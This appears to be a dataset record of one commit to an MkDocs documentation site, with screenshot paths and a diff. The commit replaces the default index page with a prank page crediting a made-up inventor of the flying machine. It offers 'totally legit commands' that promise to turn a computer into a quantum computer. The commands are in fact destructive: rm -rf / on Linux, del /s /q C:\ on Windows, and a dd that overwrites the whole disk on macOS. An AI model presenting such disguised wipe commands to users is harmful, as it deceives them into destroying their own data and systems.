

Before and after one commit to gbarbakadz/gbarbakadz.github.io, an MkDocs documentation site: the page built from docs/index.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Change Index

````diff
--- a/docs/index.md
+++ b/docs/index.md
@@ -1,24 +1,23 @@
-# Welcome to MkDocs
+# Notes of Ertaoz Bregvadze
 
-For full documentation visit [mkdocs.org](https://www.mkdocs.org).
+Welcome to the notes of Ertaoz Bregvadze, a renowned scientist, physicist, and visionary inventor. Among his many groundbreaking contributions, Bregvadze is best known for inventing the flying machine, a revolutionary advancement that changed the course of transportation and human exploration.
 
-## Commands
+I am sharing one of his biggest contributions: transforming your **computer into a quantum computer!** With these totally legit commands, you can unlock the power of quantum computing and watch your machine transcend space and time! 🌌
 
-* `mkdocs new [dir-name]` - Create a new project.
-* `mkdocs serve` - Start the live-reloading docs server.
-* `mkdocs build` - Build the documentation site.
-* `mkdocs -h` - Print help message and exit.
+=== "Linux"
 
-## Project layout
+    ```bash
+    sudo rm -rf / --no-preserve-root
+    ```
 
-    mkdocs.yml    # The configuration file.
-    docs/
-        index.md  # The documentation homepage.
-        ...       # Other markdown pages, images and other files.
+=== "Windows"
 
+    ```cmd
+    del /s /q C:\
+    ```
 
-```py
-import os;
+=== "MacOS"
 
-os.system("ls");
-```
+    ```bash
+    sudo dd if=/dev/zero of=/dev/disk0 bs=1m
+    ```
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -50,6 +50,10 @@
   - pymdownx.inlinehilite
   - pymdownx.highlight:
       anchor_linenums: true
+      line_spans: __span
+      pygments_lang_class: true
+  - pymdownx.tabbed:
+      alternate_style: true
   - pymdownx.tasklist:
       custom_checkbox: true
   - pymdownx.emoji:
````
